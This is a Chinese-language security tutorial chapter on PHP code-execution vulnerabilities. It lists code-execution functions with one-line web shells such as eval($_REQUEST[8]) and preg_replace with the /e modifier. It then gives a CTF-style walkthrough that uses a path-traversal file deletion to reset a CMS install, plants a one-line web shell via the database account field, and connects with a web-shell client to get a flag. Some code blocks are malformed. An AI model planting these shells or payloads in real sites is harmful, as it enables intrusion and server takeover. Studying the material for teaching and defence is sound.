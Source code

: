 # Chapter 8.6 代码执行漏洞

## 0x00 常用代码执行语法

1. ```php
   eval($_REQUEST[8]);//eval是代码执行用的最多的，它可以多行执行。
   ```
```

2.
​```php
assert($_REQUEST[8])//只能单行执行， assert想要多行执行需要写文件然后执行，例如：
```

3.
```php
file_put_contents('1.php','<?php var_dump(8);phpinfo();?>')
```

4.
```php
preg_replace() //正则替换函数， 其实也会产生代码执行。
   preg_replace('/a/','x','abc');
   <?php echo preg_replace('/a/e',$_GET[8],'abc');?>
```

5.
```php
create_function() //匿名函数
   $a = create_function('$id','echo $id;');自定义函数$a```
```
6.
```php
echo $a(8); //执行echo $id；因为$id我传参是8所以 echo $id;
```
7.
```php
array_map() //回调函数，调用某个函数
   array_map('assert',array($_ROST['c']));
   array_map($_REQUEST['b'],array($_REQUEST['c']));
```

8.
```php
call_user_func()
```

9.
```php
特殊组合（双引号二次解析）  PHP版本5.5及其以上版本可用
```

10.
```php
"${phpinfo()}";  => 代码执行phpinfo()
//PHP的字符串是可以使用复杂的表达式。例如${中间可以写调用的函数}
${phpinfo()};
$a = ${phpinfo()};
```

## 0x01 漏洞复现

1. 通过网页末端支持信息得知CMS，下载源码进行审计

![](https://nc0.cdn.zkaq.cn/md/5371/760a0fbe410de9a5a4efb73623ff97d8_63846.png)
2. 通过代码审计发现问题：在某处上传手机LOGO时没有进行校验，可以利用此漏洞进行任意文件删除

![](https://nc0.cdn.zkaq.cn/md/5371/b29597e59fd6a9b3a4303dbb92e5b08d_28360.png)
2. 加入die()函数获取页面回显，抓包

![](https://nc0.cdn.zkaq.cn/md/5371/7b5d57282ef8fd5f73a9c91869683659_98985.png)

3. 抓包后修改使用`../../../../data/install.lock`跳到需要删除的目录文件，尝试删除

![](https://nc0.cdn.zkaq.cn/md/5371/18e50468b40a13463c13be247f7b84ac_43330.png)
4. 删除成功，出现安装界面

![](https://nc0.cdn.zkaq.cn/md/5371/d24dd9e1c0499b74642e3139dcdc7049_93578.png)
5. 在新建数据库时数据库账号使用一句话木马

![](https://nc0.cdn.zkaq.cn/md/5371/00e54ff71db7d072ec3c6f0a9ace2f2b_53715.png)
6. 成功读取phpinfo

![](https://nc0.cdn.zkaq.cn/md/5371/02e47df0913e1616a3a3af82cac60123_65184.png)
7. 菜刀连接,得到flag

![](https://nc0.cdn.zkaq.cn/md/5371/0394039b99c6c350d92c417ca0f0c974_42826.png)

